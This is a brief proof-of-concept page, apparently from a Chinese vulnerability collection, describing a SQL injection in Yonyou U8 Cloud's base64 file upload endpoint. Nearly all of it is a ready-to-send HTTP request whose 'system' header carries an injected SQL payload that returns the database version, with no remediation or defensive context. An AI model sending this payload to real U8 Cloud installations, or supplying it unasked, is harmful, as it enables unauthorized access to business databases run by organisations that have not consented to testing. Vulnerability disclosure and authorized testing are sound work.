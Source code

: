 ## 用友U8_Cloud-base64存在SQL注入漏洞


## poc
```
GET /u8cloud/api/file/upload/base64 HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
system: -1' or 1=@@version--+
```
